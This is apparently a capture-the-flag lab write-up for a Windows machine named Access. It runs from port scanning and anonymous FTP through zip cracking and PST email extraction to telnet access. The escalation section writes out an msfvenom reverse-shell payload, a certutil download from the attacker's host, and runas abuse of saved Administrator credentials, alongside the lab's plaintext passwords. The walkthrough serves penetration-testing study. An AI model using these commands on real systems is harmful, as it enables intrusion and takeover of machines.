





1. Prelim scan
```
sudo nmap -Pn 10.129.194.120 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-04 06:04 EST
Nmap scan report for 10.129.194.120
Host is up (0.022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds

```
2. UDP scan
```
sudo nmap -Pn 10.129.194.120 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-04 06:05 EST
Nmap scan report for 10.129.194.120
Host is up.
All 65535 scanned ports on 10.129.194.120 are in ignored states.
Not shown: 65535 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 8.67 seconds
```
3. Script and version scan
```
sudo nmap -Pn 10.129.194.120 -sCV -p21,23,80 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-04 06:05 EST
Nmap scan report for 10.129.194.120
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
```
## Telnet
1. It requires authentication.
```
telnet 10.129.194.120
```
Output:
```
Welcome to Microsoft Telnet Service 

login: superman
password: 
The handle is invalid.
```
## FTP
1. Anonymous login was successful.
```
ftp -A 10.129.194.120                     
Connected to 10.129.194.120.
220 Microsoft FTP Service
Name (10.129.194.120:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
```
Output:
```
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 EPRT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
```
2. There is a `backup.mdb` file in `Backups`. We need to set the transfer mode to binary to prevent corruption.
```
binary 
get backup.mdb
```
- It is file for Microsoft Access Database.
3. There is a `Access Control.zip` in `Engineer`.
```
get 'Access Control.zip'
```
4. When we try to unzip the zip file, we see
```
unzip 'Access Control.zip'
```
Output:
```
Archive:  Access Control.zip
   skipping: Access Control.pst      unsupported compression method 99
```
- It indicates that the zip file is encrypted.
5. We will try to crack the zip password.
```
zip2john 'Access Control.zip'

```
6. Let's read the backup.mdb file. For this, I have to open in my Windows machine



7. Some information we gathered
```
cat password.list 
020481
010101
000000
666666
123321
```

```
cat usernames.list 
John
Mark
Sunita
Mary
Monica
Carter
Smith
Rahman
Jones
Nunes

```
8. The credentials `engineer:access4u@security` will trigger this error in the telnet service.
```
login: engineer
password: 
Access Denied: Specified user is not a member of TelnetClients group.
Server administrator must add this user to the above group.
```
- `admin:admin` and `backupadmin:admin` do not work.
9. Oh, but it worked for the zip file!
```
7z x -p'access4u@security' 'Access Control.zip'
```
10. We can load the PST file in OutLook

We can add files here.

- But I cannot read the new emails?
10. Welp, we need to use an alternative tool
```
sudo apt install pst-utils
```
To convert the PST into plain text emails,
```
 readpst Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

```
From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-692342385_-_-"


----boundary-LibPST-iamunique-692342385_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-692342385_-_-"

--alt---boundary-LibPST-iamunique-692342385_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```
## Privilege Escalation
1. We can use these credentials to access telnet. `security:4Cc3ssC0ntr0ller`
```
telnet 10.129.194.120
Trying 10.129.194.120...
Connected to 10.129.194.120.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```
2. Privilege information
```
C:\Users\security\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
3. Group information
```
C:\Users\security\Desktop>whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                        Attributes                                        
====================================== ================ ========================================== ==================================================
Everyone                               Well-known group S-1-1-0                                    Mandatory group, Enabled by default, Enabled group
ACCESS\TelnetClients                   Alias            S-1-5-21-953262931-566350628-63446256-1000 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                               Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                    Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                Mandatory group, Enabled by default, Enabled group

```
4. System information
```
C:\Users>systeminfo
Host Name:                 ACCESS
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-507-9857321-84191
Original Install Date:     8/21/2018, 9:43:10 PM
System Boot Time:          2/4/2026, 10:48:42 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     6,143 MB
Available Physical Memory: 5,435 MB
Virtual Memory: Max Size:  12,285 MB
Virtual Memory: Available: 11,570 MB
Virtual Memory: In Use:    715 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 110 Hotfix(s) Installed.
```
- Very out of date
5. At the root directory, there is an interesting file: `C:\ZKTeco`. Possible PE vector:
	1. https://www.exploit-db.com/exploits/40323
```
C:\ZKTeco>icacls ZKAccess3.5
ZKAccess3.5 NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                          BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                                                                           BUILTIN\Users:(I)(OI)(CI)(RX)
                                                                                                                                                    BUILTIN\Users:(I)(CI)(AD)
                  BUILTIN\Users:(I)(CI)(WD)
                                                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)

                                                                                       Successfully processed 1 files; Failed processing 0 files

```
- No modify permissions tho
6. There is a `C:\temp` directory
```
C:\temp\logs>type MainInstallerLog.log

Installer Log:

2018-08-21 23:25:33 - --------------------------------------------------------- SaveSQLScriptsToTemp Start ---------------------------------------------------------   

2018-08-21 23:25:33 - SaveSQLScriptsToTemp(1): SQL Instance not set yet, use default - PORTALSQLEXPRESS                                                                
2018-08-21 23:25:33 - SaveSQLScriptsToTemp(3): SQL SA username not set yet, use default - sa                                                                           
2018-08-21 23:25:33 - SaveSQLScriptsToTemp(5): SQL SA password not set yet, use default - *******                                                                      
2018-08-21 23:25:33 - SaveSQLScriptsToTemp(7): SQL SYSDBA username not set yet, use default - sa                                                                       
2018-08-21 23:25:33 - SaveSQLScriptsToTemp(9): SQL SYSDBA password not set yet, use default - *******    
```

```
C:\temp\scripts>type README_FIRST.txt

Open the SQL Management Studio application located either here:
   "C:\Program Files (x86)\Microsoft SQL Server\120\Tools\Binn\ManagementStudio\Ssms.exe"
Or here:
   "C:\Program Files\Microsoft SQL Server\120\Tools\Binn\ManagementStudio\Ssms.exe"
 
- When it opens the "Connect to Server" dialog, under "Server name:" type "LOCALHOST", "Authentication:" selected must be "SQL Server Authentication".
 
   "Login:" = "sa"
   "Password:" = "htrcy@HXeryNJCTRHcnb45CJRY"
 
- Click "Connect", once connected click on the "Open File" icon, navigate to the folder where the scripts are saved (c:\temp\scripts).
- Select each script in order of name by the first number in the name and run them in order e.g. "1_CREATE_SYSDBA.sql" then "2_ALTER_SERVER_ROLE.sql" then "3_SP_ATTACH_DB.sql" then "4_ALTER_AUTHORIZATION.sql"
If the scripts begin from "2_*.sql" or "3_*.sql" it means the previous scripts ran fine, so begin from the lowest script number ascending.

For the vbs scripts: 
- Go to windows Services and stop ALL SQL related services.
- Open command prompt with elevated privileges (Administrator).
- paste the following commands in command prompt for each script and click ENTER...
        1. cmd.exe /c WScript.exe "c:\temp\scripts\SQLOpenFirewallPorts.vbs" "C:\Windows\system32" "c:\temp\logs\"
        2. cmd.exe /c WScript.exe "c:\temp\scripts\SQLServerCfgPort.vbs" "C:\Windows\system32" "c:\temp\logs\" "NO_INSTANCES_FOUND"
        3. cmd.exe /c WScript.exe "c:\temp\scripts\SetAccessRuleOnDirectory.vbs" "C:\Windows\system32" "c:\temp\logs\" "NT AUTHORITY\SYSTEM" "C:\\Portal\database"
        4. Start up all SQL services again manually or run - cmd.exe /c WScript.exe "c:\temp\scripts\RestartServiceByDescriptionNameLike.vbs" "C:\Windows\system32" "c:\temp\logs\" "SQL Server (NO_INSTANCES_FOUND)" 
```
- There is no `C:\Program Files\Microsoft SQL Server` tho
7. Listening ports
```
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       1152
  TCP    0.0.0.0:23             0.0.0.0:0              LISTENING       1348
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       700
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       372
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       792
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       852
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       484
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       492
  TCP    10.129.194.120:23      10.10.16.35:47684      ESTABLISHED     1348
  TCP    10.129.194.120:139     0.0.0.0:0              LISTENING       4
  TCP    [::]:21                [::]:0                 LISTENING       1152
  TCP    [::]:23                [::]:0                 LISTENING       1348
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       700
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       372
  TCP    [::]:49153             [::]:0                 LISTENING       792
  TCP    [::]:49154             [::]:0                 LISTENING       852
  TCP    [::]:49155             [::]:0                 LISTENING       484
  TCP    [::]:49156             [::]:0                 LISTENING       492
  UDP    0.0.0.0:123            *:*                                    928
  UDP    0.0.0.0:500            *:*                                    852
  UDP    0.0.0.0:4500           *:*                                    852
  UDP    0.0.0.0:5355           *:*                                    828
  UDP    10.129.194.120:137     *:*                                    4
  UDP    10.129.194.120:138     *:*                                    4
  UDP    [::]:123               *:*                                    928
  UDP    [::]:500               *:*                                    852
  UDP    [::]:4500              *:*                                    852
  UDP    [::]:5355              *:*                                    828
```
8. When we list the stored credentials, we get this
```
cmdkey /list
```
Output:
```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
9. We can use runas to get a reverse shell
First, use msfvenom to generate a meterpreter payload.
```
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.35 LPORT=9999 -f exe > backupscript.exe
```
Create the listener
```
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.16.35
set LPORT 9999
run -j
```
On the target,
```
certutil.exe -urlcache -split -f http://10.10.16.35:8000/backupscript.exe backupscript.exe
runas /savecred /user:ACCESS\Administrator C:\Users\security\backupscript.exe
```
Output:
```
msf6 exploit(multi/handler) > [*] Sending stage (203846 bytes) to 10.129.194.210
[*] Meterpreter session 1 opened (10.10.16.35:9999 -> 10.129.194.210:49161) at 2026-02-04 19:15:42 -0500
```
10. We are now admin!
```
meterpreter > getuid
Server username: ACCESS\Administrator
```